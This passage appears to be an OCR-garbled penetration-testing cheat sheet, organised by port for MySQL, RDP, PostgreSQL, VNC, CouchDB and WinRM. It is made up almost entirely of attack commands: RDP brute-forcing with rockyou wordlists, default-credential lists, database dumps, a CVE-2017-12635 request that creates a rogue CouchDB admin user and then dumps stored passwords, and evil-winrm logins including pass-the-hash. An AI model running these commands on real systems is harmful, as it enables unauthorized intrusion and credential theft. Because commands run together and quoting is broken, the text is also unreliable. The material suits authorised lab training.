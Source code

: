 Default passwords:

[https://docs.oracle.com/cd/B10501\\_01/win.920/a95490/username.htm](https://docs.oracle.com/cd/B10501%5C%5C_01/win.920/a95490/username.htm)

## Port 3306 - MySQL

```
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse 10.11.1.111 -p 3306mysql --host=10.11.1.111 -u root -p# MYSQL UDF 4.x/5.0<https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/>
```

## Port 3389 - RDP

```
nmap -p 3389 --script=rdp-vuln-ms12-020.nserdesktop -u username -p password -g 85% -r disk:share=/root/ 10.11.1.111rdesktop -u guest -p guest 10.11.1.111 -g 94%ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://10.11.1.111python crowbar.py -b rdp -s 10.11.1.111/32 -u admin -C ../rockyou.txt -v
```

## Port 5432 - PostgreSQL

```
psql -h 10.10.1.111 -U postgres -W# Default credspostgres : postgrespostgres : passwordpostgres : adminadmin : adminadmin : passwordpg_dump --host=10.10.1.111 --username=postgres --password --dbname=template1 --table='users' -f output_pgdump
```

## Port 5900 - VNC

```
nmap --script=vnc-info,vnc-brute,vnc-title -p 5900 10.11.1.111
```

## Port 5984 - CouchDB

```
curl <http://example.com:5984/>curl -X GET <http://IP:5984/_all_dbs>curl -X GET <http://user:password@IP:5984/_all_dbs># CVE-2017-12635 RCE# Create usercurl -X PUT ‘<http://localhost:5984/_users/org.couchdb.user:chenny>' — data-binary ‘{ “type”: “user”, “name”: “chenny”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’# Dump databasecurl <http://127.0.0.1:5984/passwords/_all_docs?include_docs=true> -u chenny:-Xpassword <ds/_all_docs?include_docs=true -u chenny:-Xpassword# Dump passwordscurl -X GET <http://user:passwords@localhost:5984/passwords>
```

## Port 5985 - WinRM

```
# <https://github.com/Hackplayers/evil-winrm>gem install evil-winrmevil-winrm -i 10.11.1.111 -u Administrator -p 'password1'evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder
```
